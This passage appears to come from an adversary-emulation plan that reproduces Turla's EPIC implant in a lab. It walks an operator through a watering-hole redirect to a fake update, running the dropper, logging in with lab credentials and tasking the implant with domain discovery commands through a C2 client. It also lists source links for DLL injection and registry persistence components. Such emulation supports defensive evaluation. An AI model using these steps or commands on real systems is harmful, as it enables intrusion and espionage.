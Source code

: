 * Open Microsoft Edge and browse to `nato-int.com`.

* Wait for redirection to `anto-int.com`.

* After redirection you will prompted to update NotFlash. Click to download the
update (`NFVersion_5e.exe`) bundled with EPIC (a.k.a. Tavdig/Wipbot).

* Once the download has been completed, click the downloaded binary to execute it.

* Wait 1 minute for it to finish running.

* Close out of all tabs and sign out of your RDP session.

* Re-RDP to `Azuolas (10.100.40.103)` as `Egle`:

| Username   | Password |
| :--------: | :---------------: |
| nk\Egle  | Producer1! |

* Open Microsoft Edge and browse to `https://drebule.nk.local/owa`. Log in as `Egle`:

| Username   | Password |
| :--------: | :---------------: |
| nk\Egle  | Producer1! |

:arrow_right: **Set a timer for 2 minutes** then switch to your Kali control server terminal and
confirm that a new implant has registered and the automated discovery output has been returned in
the server log.

**NOTE:** The injector will wait **2 minutes**, before injecting EPIC's Guard DLL into explorer.exe
and, subsequently, EPIC's worker DLL into Microsoft Edge.

* Within the terminal window, split your terminal horizontally via right-click -> split terminal. Be careful not to accidentally terminate the control server.

* In your lower terminal tab, task the EPIC implant with the following set of discovery commands:

```bash
cd /opt/day2/turla/Resources/control_server
./evalsC2client.py --set-task 218780a0-870e-480e-b2c5dc 'exe | systeminfo && net group "Domain Computers" /domain'
```

### :moyai: Source Code

* Watering Hole
  * [Browser redirection](../../Resources/setup/files/watering_hole/redirection.py#L18-L31)
  * Browser evercookie (utilized built-in [BeEF Evercookie](https://github.com/beefproject/beef/blob/486a9bb329f46e434e40c8e8567afa2754b37517/core/main/client/session.js#L15-L16) from the Browser Exploitation Framework)
  * [Fingerprinting details](../../Resources/setup/files/watering_hole/README.md#fingerprinting-details-from-beef-via-evercookie-and-other-bundled-tools)
* [EPIC Dropper](../../Resources/EPIC/SimpleDropper)
  * [File write of EPIC injector](../../Resources/EPIC/SimpleDropper/SimpleDropper/Source.cpp#L34-L50)
  * [Registry modification](../../Resources/EPIC/SimpleDropper/SimpleDropper/Source.cpp#L95-L143)
* [EPIC Injector](../../Resources/EPIC/Defense-Evasion/reflective_injector/reflective_injector/)
  * Extract EPIC Guard DLL from resources section [FindResourceW](../../Resources/EPIC/Defense-Evasion/reflective_injector/reflective_injector/Source.cpp#L161-L193)
  * Targeting explorer.exe for [DLL injection](../../Resources/EPIC/Defense-Evasion/reflective_injector/reflective_injector/Source.cpp#L199-L233)
* [EPIC Guard](../../Resources/EPIC/Defense-Evasion/reflective-guard/reflective-guard/)
  * Extract EPIC payload DLL from resources section [FindResourceW](../../Resources/EPIC/Defense-Evasion/reflective-guard/reflective-guard/dllmain.cpp#L161-L193)
  * Targeting svchost.exe for payload [DLL injection](../../Resources/EPIC/Defense-Evasion/reflective-guard/reflective-guard/dllmain.cpp#L235-L283)
* [EPIC Payload](../../Resources/EPIC/payload/) (in msedge.exe)
  * Execute commands [ExecCmd](../../Resources/EPIC/payload/src/epic.cpp#L47-L71)
  * User discovery [GetAllUsers](../../Resources/EPIC/payload/src/epic.cpp#L111-L182)